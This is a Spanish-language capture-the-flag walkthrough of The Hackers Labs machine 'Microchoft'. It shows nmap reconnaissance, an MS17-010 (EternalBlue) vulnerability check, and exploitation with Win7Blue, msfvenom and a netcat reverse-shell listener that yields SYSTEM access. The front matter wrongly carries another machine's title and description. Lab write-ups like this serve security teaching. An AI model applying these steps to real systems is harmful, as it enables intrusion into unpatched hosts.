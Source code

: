 ```yaml
---
title: 'The Hackers Labs: '
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

🔗 **Página de la máquina:** [https://thehackerslabs.com/grillo/](https://thehackerslabs.com/grillo/)

![Grillo](/thl/principiante/grillo/grillo.png)

# Reconocimiento

Comenzamos con un escaneo de puertos para descubrir los servicios accesibles desde la red. Para ello, usamos `nmap` con opciones que nos permiten obtener resultados detallados y eficientes:

```bash
sudo nmap -p- --open -sS -sCV --min-rate 5000 -Pn -n -oN microchoft.txt 192.168.100.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 13:55 -03
Nmap scan report for 192.168.100.5
Host is up (0.00098s latency).                                                                                                                                                                                                              
Not shown: 60299 closed tcp ports (reset), 5227 filtered tcp ports (no-response)                                                                                                                                                            
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:6A:58:09 (VMware)
Service Info: Host: MICROCHOFT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-11T16:56:49
|_  start_date: 2025-07-11T16:52:41
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -40m01s, deviation: 1h09m16s, median: -1s
|_nbstat: NetBIOS name: MICROCHOFT, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:6a:58:09 (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Microchoft
|   NetBIOS computer name: MICROCHOFT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-11T18:56:49+02:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.21 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 135/tcp (MSRPC)
- 139/tcp (NetBIOS-SSN)
- 445/tcp (Microsoft-DS)  
Se identifica el sistema como **Windows 7 Home Basic SP1**.

---

## Comprobación de Vulnerabilidad

Detectando que el sistema operativo es Windows 7, verificamos si es vulnerable al fallo crítico **MS17-010 (EternalBlue)** utilizando el siguiente script de Nmap:

```bash
sudo nmap -p 445 --script smb-vuln-ms17-010 192.168.100.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 14:17 -03
Nmap scan report for 192.168.100.5
Host is up (0.00047s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:6A:58:09 (VMware)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds
```

### Resultado:

El escaneo confirma que el sistema **es vulnerable** a ejecución remota de código a través de SMBv1.

> Vulnerabilidad: **MS17-010**  
> Estado: **Vulnerable**  
> CVE: **CVE-2017-0143**

---

# Explotación

En lugar de utilizar Metasploit, recurrimos a la herramienta **Win7Blue**, una opción externa que permite explotar EternalBlue manualmente.

### 🧰 Herramientas requeridas:

- Nmap
- Python / Python3
- Impacket
- Msfvenom (para generar payload)
- Netcat

### 🛠️ Procedimiento:

1. Reconfirmamos la vulnerabilidad con el módulo `scanner`.

![scanner](/thl/principiante/microchoft/win7blue_nmap.png)

2. Determinamos la arquitectura del sistema con `arch`.

![arch](/thl/principiante/microchoft/win7blue_netexec.png)

4. Ejecutamos el exploit de EternalBlue.

Primeramente debemos ponernos en modo escucha para establecer una shell inversa en Netcat:

```bash
nc -lvnp 4444
```

![exploit](/thl/principiante/microchoft/win7blue_exploit.png)

---

## 🔐 Fase 4 - Escalada de Privilegios

Ya dentro del sistema, revisamos los usuarios y comprobamos que tenemos acceso con permisos elevados:

```bash
whoami
net user
```

Obtenemos acceso como `NT AUTHORITY\SYSTEM`, lo que nos otorga control total del sistema.

![revshell](/thl/principiante/microchoft/win7blue_revshell.png)

---

# 🎉 ¡Root conseguido!

La máquina **Microchoft** fue comprometida con éxito mediante una explotación manual de EternalBlue sin hacer uso de Metasploit. Esta experiencia demuestra cómo es posible ejecutar un ataque completo utilizando herramientas independientes y técnicas más discretas.

### Flag User

![user](/thl/principiante/microchoft/win7blue_user.png)

### Flag Root

![root](/thl/principiante/microchoft/win7blue_root.png)

Hemos completado exitosamente la máquina **Microchoft**  de TheHackersLabs.

